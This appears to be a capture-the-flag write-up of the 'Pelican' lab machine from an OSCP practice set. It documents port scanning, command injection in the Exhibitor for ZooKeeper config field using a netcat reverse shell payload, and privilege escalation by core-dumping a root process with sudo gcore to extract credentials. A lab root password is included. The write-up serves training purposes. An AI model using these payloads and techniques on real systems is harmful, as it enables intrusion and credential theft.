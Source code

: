 ```yaml
---
layout: post
title: Pelican
date: 2024-06-01 02:00:00 +0100
published: true
categories: [PG Practice]
tags: [PG Practice,OSCP]
---
```


On port 8081 is running `Exhibitor for ZooKeeper v1.0` which is vulnerable to arbitrary code execution via `java.env script` field under Config tab. Malicious command needs to be placed inside `$()`. I was able to get initial foothold on the system by using reverse shell one liner as payload. Enumerating system as user `charles` I found out that `charles` can run `/usr/bin/gcore` with `sudo`. This binary can be used to generate core dump of process by providing process ID. Searching for processes I ran `pspy64s` and found interesting process `/usr/bin/password-store`, which is running as root. I generated core dump for `/usr/bin/password-store` process using `/usr/bin/gcore`. Inspecting output I found root credentials and I was able to log in as root. 

___
## Reconnaissance

### Nmap

```
nmap -sV -sC -oN ./nmap.txt 192.168.246.98
```

```
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 a8e16068bef58e707054b427ee9a7e7f (RSA)
|   256 bb999a453f350bb349e6cf1149878d94 (ECDSA)
|_  256 f2ebfc45d7e9807766a39353de00579c (ED25519)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
631/tcp  open  ipp         CUPS 2.2
|_http-title: Forbidden - CUPS v2.2.10
| http-methods: 
|_  Potentially risky methods: PUT
|_http-server-header: CUPS/2.2 IPP/2.1
2222/tcp open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 a8e16068bef58e707054b427ee9a7e7f (RSA)
|   256 bb999a453f350bb349e6cf1149878d94 (ECDSA)
|_  256 f2ebfc45d7e9807766a39353de00579c (ED25519)
8080/tcp open  http        Jetty 1.0
|_http-title: Error 404 Not Found
|_http-server-header: Jetty(1.0)
8081/tcp open  http        nginx 1.14.2
|_http-title: Did not follow redirect to http://192.168.246.98:8080/exhibitor/v1/ui/index.html
|_http-server-header: nginx/1.14.2
Service Info: Host: PELICAN; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
## Enumeration

### Service Enumeration

#### Port 445

```
smbclient -N -L //192.168.246.98
```

![445](/assets/img/pelican/445.png)

#### Port 631

```
CUPS v2.2.10
```

#### Port 8080

```
Jetty 1.0
```

#### Port 8081

```
nginx 1.14.2
```

![[8081.png]]

```
Exhibitor for ZooKeeper v1.0
```

___
## Initial Foothold

### Exhibitor Web UI - RCE

Source: https://www.exploit-db.com/exploits/48654

`java.env script` field can be modified and the new configuration pushed to `ZooKeeper`. We can execute arbitrary code by placing it inside `$()`. For payload I used simple reverse shell one liner. 

Payload:
```
$(/bin/nc -e /bin/sh 192.168.45.162 4444 &)
```

![[PG Practice/Intermediate/Pelican/Screenshots/exploit.png]]

After committing changes we receive reverse shell on port 4444.

![[PG Practice/Intermediate/Pelican/Screenshots/reverseSHell.png]]

### Local.txt

![[PG Practice/Intermediate/Pelican/Screenshots/localFlag.png]]

_____
## Privilege Escalation

### System Enumeration

```
sudo -l
```

![[PG Practice/Intermediate/Pelican/Screenshots/sudoL.png]]

Output showed that we can run `/usr/bin/gcore` with `sudo`. Searching this binary on `gtfobins` (https://gtfobins.github.io/gtfobins/gcore/) revealed that it is possible to uses this binary to generate core dump of process by providing process ID. 
#### Pspy64s

Running `pspy64s` revealed interesting process `/usr/bin/password-store`, which is running with root privileges. 

![[PG Practice/Intermediate/Pelican/Screenshots/pspy64s.png]]

### Core dump of /usr/bin/password-store process

```
sudo /usr/bin/gcore -a -o output.txt 494
```

![[escal.png]]

Inspecting output we can find root credentials.

```
cat output.txt
```

![[PG Practice/Intermediate/Pelican/Screenshots/password.png]]

### Root Access

```
root : ClogKingpinInning731
```

![[PG Practice/Intermediate/Pelican/Screenshots/rootLogin.png]]

___
## Post Exploitation

![[PG Practice/Intermediate/Pelican/Screenshots/proofFlag.png]]
